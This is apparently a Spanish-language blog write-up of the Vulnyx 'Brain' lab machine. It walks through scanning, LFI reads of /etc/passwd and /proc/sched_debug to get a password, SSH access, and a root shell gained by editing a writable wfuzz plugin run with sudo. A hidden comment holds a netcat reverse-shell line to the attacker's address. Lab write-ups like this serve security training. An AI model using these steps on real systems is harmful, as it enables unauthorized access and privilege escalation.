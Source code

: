 ```yaml
---
layout: post
title: "Brain"
date: 2024-04-19 12:57:23
category: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Brain </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#brain"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/brain/host.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![host](/notas/public/img/vulnyx/brain/arp_scan.png){:.margin}

**2\.** Escaneamos puertos del host víctima.

`sudo nmap -p- -sS -T5 -sCV --open --min-rate=5000 -n -Pn 192.168.1.7 -oN report_scan`

![host](/notas/public/img/vulnyx/brain/nmap.png){:.margin}

**3\.** Visitamos el servicio Apache por el puerto 80.

`http://192.168.1.7/`

![host](/notas/public/img/vulnyx/brain/80.png){:.margin}

**4\.** Hacemos fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.7/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![host](/notas/public/img/vulnyx/brain/gobuster.png){:.margin}

- Si visitamos index.php vemos lo mismo:

![host](/notas/public/img/vulnyx/brain/index.png){:.margin}

**5\.** Hacemos fuzzing de parámetros en busca de un LFI..

`wfuzz -c -t 50 --hl=7 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.7/index.php?FUZZ=/etc/passwd'`

![host](/notas/public/img/vulnyx/brain/wffuz.png){:.margin}

**6\.** Ingresamos la ruta completa con el parámetro hallado.

`http://192.168.1.7/index.php?include=/etc/passwd`

![host](/notas/public/img/vulnyx/brain/include.png){:.margin}

_tenemos inclusion de archivos locales (LFI)_

- Si presionamos `ctrl + u` podemos visualizar mejor, y encontramos el usuario ben:

![host](/notas/public/img/vulnyx/brain/ben.png){:.margin}

**7\.** incluimos el la ruta sched_debug, donde podemos ver la contraseña de ben.

`view-source:http://192.168.1.7/index.php?include=/proc/sched_debug`

![host](/notas/public/img/vulnyx/brain/sched_debug.png){:.margin}

_\- Si un servidor web tiene una vulnerabilidad LFI y permite acceder a esta ruta, un atacante podría obtener información confidencial, como contraseñas almacenadas en memoria._

**8\.** Accedemos por ssh al host como el usuario ben.

`ssh ben@192.168.1.7`

![host](/notas/public/img/vulnyx/brain/ssh_ben.png){:.margin}

**9\.** Listamos permisos sudo, podemos ejecutar el binario wfuzz como root.

`sudo -l`

![host](/notas/public/img/vulnyx/brain/sudo_l.png){:.margin}

_\- buscando en la web [gtfobins](https://gtfobins.github.io/#wfuzz) no encontramos referencia alguna._

**10\.** Buscamos archivos con permisos de escritura relacionados al binario wfuzz.

`find / -type f -writable 2> /dev/null | grep wfuzz`

![](/notas/public/img/vulnyx/brain/find.png){:.margin}

**11\.** Agregamos estas 2 lineas para obtener una bash.

`nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py`

`import os`

`os.system("/bin/bash")`

![](/notas/public/img/vulnyx/brain/nano.png){:.margin}

<!-- os.system("nc -e (/bin/sh 192.168.1.12 443") ///alternativa enivarnos una shell -->

**12\.** Ejecutamos el binario como root, ya somos superusuario.

`sudo /usr/bin/wfuzz -c -z range 1-2`

![](/notas/public/img/vulnyx/brain/root.png){:.margin}

**13\.** Finalizamos leendo la flag de root.

`cd`

`ls`

`cat root.txt`

![](/notas/public/img/vulnyx/brain/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>